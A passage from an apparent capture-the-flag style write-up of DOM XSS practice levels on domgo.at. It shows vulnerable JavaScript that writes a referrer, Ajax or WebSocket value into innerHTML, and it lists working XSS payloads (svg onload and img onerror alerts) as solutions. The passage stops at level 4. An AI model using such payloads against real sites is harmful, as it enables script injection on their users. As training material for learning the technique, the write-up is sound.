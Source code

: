 If you look at the HTML source code, you can see the `getPayloadParamValueFromUrl()` defined which extracts the value of the GET parameter named **payload** if any:

{% highlight javascript lineos %}
let getPayloadParamValueFromUrl = function (url) {
let paramName = "payload=";
if (url.indexOf(paramName) > -1) {
    let part = url.substr(rfr.indexOf(paramName));
    part = part.split(paramName)[1];
    if (part.indexOf("#") > -1) {
        part = part.split("#")[0];
    }
    part = part.split("&")[0];
    return part;
}
return "";
};
{%endhighlight%}


**Sink**: innerHTML

**Source**: document.referrer

**Solution**: [https://domgo.at/cxss/example/1?payload=%3Csvg/onload=alert(1)%3E&sp=x#12345](https://domgo.at/cxss/example/1?payload=%3Csvg/onload=alert(1)%3E&sp=x#12345){:target="_blank"}

Here, the **payload** from the `document.referrer` is extracted and is written to the DOM using innerHTML. So you can visit the above URL first and then navigate to Example 2 link (payload param is set to actual XSS payload.)


#### Level 3:

{% highlight javascript lineos %}
let responseBody = xhr.responseText;
let responeBodyObject = JSON.parse(responseBody);
let msg = "Welcome <b>" + responeBodyObject.payload + "</b>!!";
document.getElementById("msgboard").innerHTML = msg;
{%endhighlight%}


**Sink**: innerHTML

**Source**: Ajax

**Solution**: `<img src=xx onerror=alert(1)>`

The response from the Ajax request (emulated with the user input) is parsed on the client side and is written directly to DOM with innerHTML.


#### Level 4:

{% highlight javascript lineos %}
let ws = new WebSocket(webSocketUrl);
ws.onmessage = function (evt) {
    
    let rawMsg = evt.data;
    let msgJson = JSON.parse(rawMsg);
    let msg = "Welcome <b>" + msgJson.payload + "</b>!!";
    document.getElementById("msgboard").innerHTML = msg;
};
{%endhighlight%}
